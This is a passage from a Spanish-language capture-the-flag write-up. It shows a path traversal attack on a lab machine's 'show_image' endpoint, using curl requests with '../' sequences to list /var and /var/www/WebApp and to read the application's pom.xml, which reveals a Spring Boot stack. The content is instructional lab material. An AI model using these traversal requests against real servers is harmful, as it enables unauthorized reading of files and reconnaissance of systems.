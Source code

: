 Si intentamos ver algún archivo no podremos verlo intente con la **flag** pero nada

Algo que podemos hacer es comenzara enumerar podemos empezar con la ruta `var`

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../var"
backups
cache
crash
lib
local
lock
log
mail
opt
run
spool
tmp
www
^C
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../var/www"
html
WebApp
```

Y bueno ya vemos 2 directorios interesantes **html** y **WebApp** vamos a entrar en `WebApp` y vemos varios archivos interesantes entre ellos un **pom.xml** 

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../var/www/WebApp"
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
```

Bueno vemos básicamente que se esta usando `Java` que es un lenguaje de programación y `Spring`

```bash
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml"
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
```